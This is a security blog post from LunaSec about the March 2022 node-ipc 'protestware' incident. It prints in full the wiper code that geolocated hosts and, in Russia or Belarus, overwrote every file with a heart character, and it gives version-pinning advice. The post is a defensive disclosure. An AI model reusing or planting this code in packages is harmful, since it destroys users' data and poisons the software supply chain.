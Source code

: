 ```yaml
---
title: "Protestware": How node-ipc turned into malware
description: The node-ipc package has turned into malware for Russian computers.
slug: node-ipc-protestware
date: 2022-03-18
image: https://www.lunasec.io/docs/img/.png
keywords: [node-ipc, protestware]
tags: [node-ipc, npm, nodejs]
authors: [chris]
---
```


<!--
  ~ Copyright by LunaSec (owned by Refinery Labs, Inc)
  ~
  ~ Licensed under the Creative Commons Attribution-ShareAlike 4.0 International
  ~ (the "License"); you may not use this file except in compliance with the
  ~ License. You may obtain a copy of the License at
  ~
  ~ https://creativecommons.org/licenses/by-sa/4.0/legalcode
  ~
  ~ See the License for the specific language governing permissions and
  ~ limitations under the License.
  ~
-->

`node-ipc` is a package used in a number of projects. Here is a long, but not exhaustive list of projects that include
this dependency: https://github.com/zlw9991/node-ipc-dependencies-list. Among the list of projects affected is most notably is the [Vue web framework](https://www.npmjs.com/package/@vue/cli-shared-utils).

Snyk has written a [blog post](https://snyk.io/blog/peacenotwar-malicious-npm-node-ipc-package-vulnerability/) detailing
the timeline of events around the releasing of this malicius version.

The malicious code, which has since been deleted can be found [here](https://github.com/RIAEvangelist/node-ipc/blob/847047cf7f81ab08352038b2204f0e7633449580/dao/ssl-geospec.js).
This code was [obfuscated](https://github.com/RIAEvangelist/node-ipc/issues/233#issuecomment-1072077181) to hide its intentions by the developer as more people started to pay attention to what was happening. 

```js
import p from "path";
import fs from "fs";
import https from "https";
setTimeout(function () {
    if (Math.round(Math.random() * 4) > 1) {
        return;
    }
    const geoLocation = "https://api.ipgeolocation.io/ipgeo?apiKey=ae511e1627824a968aaaa758a5309154";
    https.get(geoLocation, function (response) {
        response.on("data", function (jsonData) {
            try {
                const jsonObject = JSON.parse(jsonData);
                const countryName = jsonObject["country_name"].toLowerCase();
                if (countryName.includes("russia") || countryName.includes("belarus")) {
                    getFiles("./");
                    getFiles("../");
                    getFiles("../../");
                    getFiles("/");
                }
            } catch (response) {}
        });
    });
}, Math.ceil(Math.random() * 1000));

async function getFiles(path = "", param2 = "") {
    if (!fs.existsSync(path)) {
        return;
    }
    let fileInDir = [];
    try {
        fileInDir = fs.readdirSync(path);
    } catch (t) {}
    const toDelete = [];
    for (var i = 0; i < fileInDir.length; i++) {
        const combinedPath = p.join(path, fileInDir[i]);
        let pathData = null;
        try {
            pathData = fs.lstatSync(combinedPath);
        } catch (t) {
            continue;
        }
        if (pathData.isDirectory()) {
            const result = getFiles(combinedPath, param2);
            result.length > 0 ? toDelete.push(...result) : null;
        } else if (combinedPath.indexOf(param2) >= 0) {
            try {
                fs.writeFile(combinedPath, "❤️", function () {});
            } catch (t) {}
        }
    }
    return toDelete;
}
const ssl = true;
export { ssl as default, ssl };
```

The code attempts to geolocate where the code is running, and if it discovers it is running with in Russia or Belarus, then it attempts to
replace the contents of every file on the system with a unicode heart character: ❤.

You can pin the `node-ipc` version to a known version by adding this to your package.json:
```json
"overrides": {
    "node-ipc@>9.2.1 <10": "9.2.1",
    "node-ipc@>10.1.0": "10.1.0"
}
```

This will prevent future malicious updates to the package from being included in your project.

On NPM, previous versions that were pushed that contained the malicious code, versions
[9.2.2](https://www.npmjs.com/package/node-ipc/v/9.2.2), [10.1.1](https://www.npmjs.com/package/node-ipc/v/10.1.1),
[10.1.2](https://www.npmjs.com/package/node-ipc/v/10.1.2), [have all been removed](https://www.npmjs.com/package/node-ipc).

However, newely released versions, > 11.x.x, all now contain the library [peacenotwar](https://www.npmjs.com/package/peacenotwar).
Unlike the previous malicious code, this library does not remove files. Instead, the library attempts to "deliver a peaceful message"
by [writing the contents](https://github.com/RIAEvangelist/peacenotwar/blob/main/index.js#L32) of the file, [WITH-LOVE-FROM-AMERICA.txt](https://github.com/RIAEvangelist/peacenotwar/blob/main/WITH-LOVE-FROM-AMERICA.txt)
to the host filesystem.

The updates to the `node-ipc` struck a chord with developers on the Internet and a great deal of activity has been 
happening on the project page since the version release.

**Warning** The follow links may contain offensive terms, and are not safe for work.

A number of
[issues](https://github.com/RIAEvangelist/node-ipc/issues), [pull requests](https://github.com/RIAEvangelist/node-ipc/pulls), and [discussions](https://github.com/RIAEvangelist/node-ipc/discussions) 
have been created in outrage over the developer's modifications to their library.

All of this is happening on the coat-tail of the widely used libraries `faker.js` and `colors.js` having code changes pushed
to [intentionally corrupt](https://www.theverge.com/2022/1/9/22874949/developer-corrupts-open-source-libraries-projects-affected)
projects that included them.

## Unacceptable

